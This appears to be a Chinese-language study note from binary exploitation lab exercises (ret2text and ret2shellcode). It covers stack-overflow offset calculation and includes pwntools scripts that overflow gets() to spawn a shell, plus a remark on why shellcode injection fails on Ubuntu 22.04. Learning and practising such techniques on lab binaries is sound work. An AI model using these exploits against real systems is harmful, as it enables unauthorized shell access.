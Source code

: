 # level 1
## ret2text
- 第1步：用checksec查看文件
	- ![[Pasted image 20230416103610.png]]
- 第 2 步：使用IDA查看文件，发现main() 函数里有 gets 调用，存在溢出漏洞可利用
	- ![[Pasted image 20230416103702.png]]
- 第 3 步：字符串查找发现secure() 函数里调用了 system('/bin/sh') 函数 ，代码段可利用！
	- ![[Pasted image 20230416103741.png]]
	- ![[Pasted image 20230416103816.png]]
- 第4步：考虑如何利用get()进行栈溢出
	- 查看函数system('/bin/sh') 地址为：0X0804863A
		- ![[Pasted image 20230416105910.png]]
	- 计算栈帧中返回地址的偏移量
		- ![[Pasted image 20230417084418.png]]
		- 从上图可以发现此时的ebp和eax的值分别为0xffffd0e4和0xffffcfbc，相减得到变量s首地址到栈底的距离为0x6c，根据栈结构再加上ebp的4个字节。最后得到变量s首地址到返回地址的距离是0x70
	- 由此我们便可以构建payload为`'A' * 0x70 + addr_system
- 第5步：编写exp
	```python
	from pwn import *
	
	addr_system = 0x0804863A
	payload = b'A' * 0x70 + p32(addr_system)
	
	p = process('./ret2text')
	p.sendline(payload)
	p.interactive()
	
	```  
- 结果：
	- ![[Pasted image 20230417085339.png]]
## ret2shellcode
- 第1步：checksec查看文件
	- ![[Pasted image 20230417092856.png]]
- 第2步：查看反编译代码，发现危险函数gets，存在栈溢出漏洞
	- ![[Pasted image 20230417093030.png]]
- 第3步：考虑如何进行栈溢出
	- 计算返回地址偏移
	- 写入恶意代码，并将栈帧返回地址覆盖为字符串首地址，使得程序执行恶意代码。
- 第4步：编写exp
```python
from pwn import *

addr_buff = 0x804a080
shellcode = asm(shellcraft.sh())
payload = shellcode + b'A' * (0x70 - len(shellcode)) + p32(addr_buff)
print(payload)
p = process('./ret2shellcode')
p.sendline(payload)
p.interactive()

```
- 问题：
	- 在实际运行的时候发现并不能成功，使用gdb调试发现变量s对应的内存区域是不能执行的。![[Pasted image 20230417101029.png]]
	- 貌似是Linux5的特性，本人的Ubuntu版本是22.x
	- [c - Why ret2shellcode fail in ubuntu 22.04 but success in ubuntu 18.04.5 - Stack Overflow](https://stackoverflow.com/questions/73103985/why-ret2shellcode-fail-in-ubuntu-22-04-but-success-in-ubuntu-18-04-5)
	- 需要使用mprotect()来开启内存可执行。
- 